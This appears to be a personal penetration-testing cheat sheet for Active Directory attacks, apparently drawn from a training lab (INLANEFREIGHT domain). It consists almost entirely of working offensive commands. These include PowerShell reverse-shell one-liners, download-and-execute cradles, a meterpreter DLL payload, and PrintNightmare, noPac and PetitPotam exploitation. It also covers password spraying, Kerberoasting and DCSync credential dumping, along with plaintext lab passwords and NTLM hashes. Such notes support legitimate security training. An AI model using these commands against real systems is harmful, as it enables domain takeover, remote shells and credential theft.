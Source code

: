 # aaaxxqqq

https://www.thehacker.recipes/ad/movement/kerberos/asreproast

Rubeus ->  https://github.com/GhostPack/Rubeus


Metasploit
https://www.offsec.com/metasploit-unleashed/msfvenom/
https://www.beyondtrust.com/blog/entry/how-to-use-metasploit-for-command-control
https://github.com/lexisrepo/Shells
https://0xdf.gitlab.io/2022/07/16/htb-acute.html

iex ((New-Object Net.WebClient).DownloadString('http://10.10.14.244/ps.ps1'))
IEX([Net.Webclient]::new().DownloadString($url))
https://github.com/martinsohn/PowerShell-reverse-shell/blob/main/powershell-reverse-shell.ps1



$client = New-Object System.Net.Sockets.TCPClient('10.10.50.101',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
$sm=(New-Object Net.Sockets.TCPClient('10.10.50.101',4444)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}



sharphound
https://github.com/SpecterOps/SharpHound
bloodhound -> 


impacket
https://github.com/fortra/impacket

[
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Recon/PowerView.ps1)
shell
powershell.exe Invoke-WebRequest -Uri "http://10.10.15.253:8000/PowerView.ps1" -OutFile “C:\PowerView.ps1"

Get-DomainUser -SPN | Select-Object samaccountname,serviceprincipalname
Get-DomainUser -Identity svc_sql -SPN | Get-DomainSPNTicket –Format Hashcat | Out-File .\svc_sql_tgs_hash.txt

GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request


username-passs
$username = "inlanefreight\svc_sql"
$password = "lucky7"
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ($username, $securePassword)


arp -a 
fping

portfwd add -l 7878 -p 445 -r 172.16.6.50

Mimikatz
https://github.com/ParrotSec/mimikatz/blob/master/x64/mimikatz.exe


runas /netonly /user:INLANEFREIGHT\tpetty powershell


run autoroute -s 172.16.6.3/16



$sid = Convert-NameToSid username
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}






sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share 'Department Shares'
smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5
smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5 -R 'Department Shares' --dir-only

### User enum
rpcclient -U "" -N 172.16.5.5 -> queryuser 0x457 -> enumdomusers
enum4linux -U 172.16.5.5  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
crackmapexec smb 172.16.5.5 --users
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
./windapsearch.py --dc-ip 172.16.5.5 -u "" -U

#### Brute users
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 
https://github.com/insidetrust/statistically-likely-usernames
sudo crackmapexec smb 172.16.5.5 -u user -p pass --users

### Spray pass
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
VALIDATE -> sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123
local -> sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +

### Pass policy
rpclient -U "" -N X.X.X.X
querydominfo
getdompwinfo
enum4linux -P 172.16.5.5
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength


### Responder
sudo responder -I interface
sudo responder -I interface -A (OBSERVATION MODE)

### enum
sudo nmap -v -A -iL hosts.txt -oN 
kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users


### nopac
https://github.com/Ridter/noPac
sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator


### printnightmare
https://github.com/cube0x0/CVE-2021-1675.git
rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR' 
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll
sudo smbserver.py -smb2support CompData /path/to/backupscript.dll (share a share on our host)
sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'

### petitpotam
sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController
python3 PetitPotam.py 172.16.5.225 172.16.5.5       
sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController
python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 MIIStQIBAzCCEn8GCSqGSI...SNIP...CKBdGmY= dc01.ccache
export KRB5CCNAME=dc01.ccache
secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
crackmapexec smb 172.16.5.5 -u administrator -H 88ad09182de639ccc6579eb0849751cf
python /opt/PKINITtools/getnthash.py -key 70f805f9c91ca91836b670447facb099b4b2b7cd5b762386b3369aa16d912275 INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$
secretsdump.py -just-dc-user INLANEFREIGHT/administrator "ACADEMY-EA-DC01$"@172.16.5.5 -hashes aad3c435b514a4eeaad3b935b51304fe:313b6f423cd1ee07e91315b4919fb4ba


ALTERNATIVE
.\Rubeus.exe asktgt /user:ACADEMY-EA-DC01$ /certificate:MIIStQIBAzC...SNIP...IkHS2vJ51Ry4= /ptt
klist
mimikatz
lsadump::dcsync /user:inlanefreight\krbtgt



